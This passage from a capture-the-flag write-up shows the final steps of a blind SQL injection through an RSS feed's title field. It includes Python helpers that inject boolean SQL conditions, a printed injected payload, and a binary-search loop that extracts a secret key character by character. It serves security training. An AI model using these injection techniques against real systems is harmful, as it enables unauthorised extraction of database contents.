    '!"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~'


```python
known = 'govtech-csg{'
for c in charset:
    print(c, end='')
    if query_character_eq(12, c)[0]:
        print(f'... Found {c}')
        known = known + c
        break
print(known)
```

    !"#$%&'()*+,-./0123456789:;<=>?@ABCDEF... Found F
    govtech-csg{F


Oh man, that was really slow just to find one character. Turns out there is a faster way to do it by using [binary search](https://security.stackexchange.com/a/16039). We can use a helper query which uses the `>=` operator instead and a more complex search to find the key faster.


```python
def query_character_geq(index, character):
    return query_challenge_union(
        "admin.Keys",
        f"Keys.key LIKE 'govtech-csg{{%' AND ASCII(RIGHT(LEFT(Keys.key, {index + 1}), 1)) >= ASCII('{character}')"
    )
```


```python
# Sanity check the geq helper function, first character is 'g', should return True, True, False
query_character_geq(0, 'f'), query_character_geq(0, 'g'), query_character_geq(0, 'h')
```


    ((True, 'Feed with same title already exists!', <Response [500]>),
     (True, 'Feed with same title already exists!', <Response [500]>),
     (False,
      "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 1), 1)) >= ASCII('h')) != 0 AND '1'='1; no new feeds allowed!",
      <Response [200]>))


```python
known = "govtech-csg{"

while True:
    print(known)
    lb = 0
    ub = len(charset)
    while ub - lb != 1:
        md = (ub + lb) // 2
        print(charset[md], end='')
        res = query_character_geq(len(known), charset[md])
        if res[0]:
            lb = md
        else:
            ub = md
    known = known + charset[lb]
    print(f"... Found {charset[lb]}")
    if known[-1] == "}":
        break
print("Done!")
print(known)
```

    govtech-csg{
    P8DJGEF... Found F
    govtech-csg{F
    P8,2534... Found 3
    govtech-csg{F3
    Pg[adef... Found e
    govtech-csg{F3e
    Pg[ade... Found d
    govtech-csg{F3ed
    Pg[a^_`... Found _
    govtech-csg{F3ed_
    Pgsmpn... Found m
    govtech-csg{F3ed_m
    P8,2534... Found 3
    govtech-csg{F3ed_m3
    Pg[a^_`... Found _
    govtech-csg{F3ed_m3_
    P8,&#"... Found !
    govtech-csg{F3ed_m3_!
    Pgsmpno... Found n
    govtech-csg{F3ed_m3_!n
    P8DJMK... Found J
    govtech-csg{F3ed_m3_!nJ
    P8,2534... Found 3
    govtech-csg{F3ed_m3_!nJ3
    Pg[adbc... Found c
    govtech-csg{F3ed_m3_!nJ3c
    Pg[URST... Found T
    govtech-csg{F3ed_m3_!nJ3cT
    P8,256... Found 5
    govtech-csg{F3ed_m3_!nJ3cT5
    Pgsy|}~... Found }
    Done!
    govtech-csg{F3ed_m3_!nJ3cT5}


## Summary

Solution is to:
- Locate feed submission that will accept a XML RSS feed
- Serve an XML RSS feed with a web server of your choice
- Manipulate the text in the `<title>` tag to get SQL injection, keeping in mind proper XML character escaping
- Get blind SQL injection
- Enumerate database schema with SQLi
- Leak flag with SQLi (and optional binary search speedup)
